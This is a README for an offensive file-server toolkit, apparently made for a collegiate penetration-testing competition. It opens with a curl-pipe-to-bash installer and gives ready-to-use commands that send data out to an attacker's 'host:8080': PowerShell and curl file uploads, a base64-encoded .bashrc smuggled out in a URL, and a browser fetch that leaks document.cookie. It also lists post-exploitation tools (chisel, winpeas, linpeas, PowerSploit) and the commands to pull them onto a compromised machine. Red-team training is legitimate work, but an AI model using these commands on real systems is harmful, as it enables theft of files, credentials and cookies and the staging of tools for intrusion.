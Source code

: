 # Install

```
curl -sL https://raw.githubusercontent.com/zoeyg/cptc/main/install.sh | bash -
```

# http server

## exfil

### Powershell

```
Invoke-RestMethod -Uri http://host:8080/win-file/output-file-name.ext -Method Post -InFile input-file-name.ext
```

### Base64 File Exfil in url

You can exfil file contents in base64 as part of the url.  Just make a request similar to the following

```
curl "http://host:8080/b64-file/path/output-filename?f=$(base64 --wrap=0 .bashrc)"
```

### Log base64 contents

Example for in browser, this will just log the cookie contents to stdout.

```
fetch('http://host:8080/b64/' + btoa(document.cookie));
```

### curl

```
curl -F 'output-filename=@./path/input-file-name' http://host:8080/upload
```

## Tool retrieval

Some available files:
* chisel.exe
* chisel - linux binary
* winpeas.bat
* winpeas.exe
* win-privesc.zip - all modules from PowerSploit/PrivEsc
* win-recon.zip - all modules from PowerSploit/Recon
* linpeas.sh
* powerview.ps1
* pspy64 - statically linked pspy version
* various statically linked linux binaries in /linux-bin
* various statically linked windows binaries in /win-bin

### Windows

```
Invoke-WebRequest -Uri 'http://host:8080/winpeas.bat' -OutFile .\winpeas.bat
wget http://host:8080/winpeas.bat -outfile winpeas.bat
```

### Linux

```
curl http://host:8080/linpeas.sh -o lp.sh
wget http://host:8080/linpeas.sh
```